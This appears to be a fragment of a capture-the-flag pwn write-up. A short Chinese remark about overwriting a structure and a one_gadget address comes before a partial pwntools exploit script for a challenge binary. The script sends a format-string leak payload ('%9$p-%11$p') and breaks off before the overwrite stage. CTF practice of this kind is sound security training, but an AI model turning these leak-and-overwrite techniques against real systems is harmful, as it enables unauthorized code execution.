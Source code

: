 对于下面的修改就是简单的修改二级结构，再修改one_gadget,就可以拿到权限了


exp
```
from   pwn import*

  

context.terminal=['tmux','split','-h']

context.log_level='debug'

p=process("./pwn")

# p=remote('node5.buuoj.cn',)

elf=ELF("./pwn")

libc=ELF("../../../libc-database/libs/libc6_2.23-0ubuntu11.3_amd64/libc-2.23.so")

  

s       = lambda data               :p.send(str(data))

sa      = lambda delim,data         :p.sendafter(str(delim), str(data))

sl      = lambda data               :p.sendline(str(data))

sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))

r       = lambda num                :p.recv(num)

ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)

itr     = lambda                    :p.interactive()

uu32    = lambda data               :u32(data.ljust(4,b'\x00'))

uu64    = lambda data               :u64(data.ljust(8,b'\x00'))

leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))

l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))

context.terminal = ['gnome-terminal','-x','sh','-c']

  

#gdb.attach(p)

  

ru('Give me your name:')

sl(b'a')

ru('favourite food: ')

sl('%9$p-%11$p')

ru("0x")

```